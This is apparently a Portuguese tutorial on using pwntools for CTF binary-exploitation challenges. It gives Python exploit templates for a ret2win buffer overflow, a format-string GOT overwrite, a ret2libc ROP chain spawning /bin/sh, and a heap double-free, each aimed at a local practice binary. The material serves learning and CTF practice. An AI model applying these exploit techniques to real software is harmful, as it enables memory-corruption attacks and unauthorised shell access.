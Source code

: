 # Introdução à biblioteca
## Funcionalidades Principais da Pwntools para os CTF's
1. Automatização de Exploits
2. Interação Facilitada com Desafios Remotos
3. Construção e Envio de Payloads
4. Análise de Binários
5. Suporte a Diversas Plataformas

## Exercícios clássicos de PWN
1. Buffer Overflow (Ret2Win)
   - Explorar um programa vulnerável a buffer overflow para redirecionar a execução para uma função específica (geralmente chamada de win ou flag).
2. Format String Exploit
   - Explorar um string bug para ler ou escrever na memória.
3. ROP Chain (Ret2libc)
   - Explorar um programa usando uma cadeia ROP para chamar terminal root com /bin/sh como argumento.
4. Heap Exploitation
   Explorar uma vulnerabilidade de alocação de heap para modificar estruturas internas e obter controle do programa.

# Exemplos práticos
## 1. Buffer Overflow (Ret2Win)
```py
from pwn import *

# Carrega o binário
elf = ELF('./ret2win')

# Define o processo ou conexão remota
p = process(elf.path)

# Endereço da função win
win_addr = elf.symbols['win']

# Calcula o offset até o EIP/RIP
offset = 40  # usualmente determinado por técnicas como pattern_create e pattern_offset

# Constrói o payload
payload = b'A' * offset + p64(win_addr)

# Envia o payload
p.sendline(payload)

# Entra em modo interativo para capturar a saída
p.interactive()

```
## 2. Format String Exploit
```py
from pwn import *

# Carrega o binário
elf = ELF('./format_string')

# Define o processo ou conexão remota
p = process(elf.path)

# Endereço da função win
win_addr = elf.symbols['win']

# Calcula o offset da string de formato
offset = 6  # usualmente determinado por técnicas de fuzzing

# Cria um payload para sobrescrever a função puts na GOT com o endereço da função win
payload = fmtstr_payload(offset, {elf.got['puts']: win_addr})

# Envia o payload
p.sendline(payload)

# Interage com o processo
p.interactive()

```
## 3. ROP Chain (Ret2libc)
```py
from pwn import *

# Carrega o binário
elf = ELF('./ret2libc')

# Define o processo ou conexão remota
p = process(elf.path)

# Encontra as funções e strings necessárias
libc = elf.libc
rop = ROP(elf)
rop.call('puts', [elf.got['puts']])
rop.call('main')

# Constrói o payload
offset = 40
payload = b'A' * offset + rop.chain()

# Envia o payload para vazar o endereço de puts
p.sendline(payload)
p.recvline()

# Calcula o endereço base da libc
puts_leak = u64(p.recvline().strip().ljust(8, b'\x00'))
libc.address = puts_leak - libc.symbols['puts']

# Constrói a cadeia ROP para chamar system('/bin/sh')
rop = ROP(libc)
rop.call(libc.symbols['system'], [next(libc.search(b'/bin/sh\x00'))])

# Constrói o payload final
payload = b'A' * offset + rop.chain()

# Envia o payload final
p.sendline(payload)

# Interage com o processo
p.interactive()

```
## 4. Heap Exploitation
```py
from pwn import *

# Carrega o binário
elf = ELF('./heap_exploit')

# Define o processo ou conexão remota
p = process(elf.path)

# Exploração de um chunk duplo livre para sobrescrever o ponteiro de função
p.sendline(b'1')
p.sendline(b'64')
p.sendline(b'A' * 64)

p.sendline(b'1')
p.sendline(b'64')
p.sendline(b'B' * 64)

p.sendline(b'3')
p.sendline(b'0')

p.sendline(b'3')
p.sendline(b'1')

# Aloca um novo chunk e sobrescreve o ponteiro de função
p.sendline(b'1')
p.sendline(b'64')
p.sendline(b'C' * 56 + p64(elf.symbols['win']))

# Chama a função vulnerável que usa o ponteiro sobrescrito
p.sendline(b'2')
p.sendline(b'0')

# Interage com o processo
p.interactive()

```
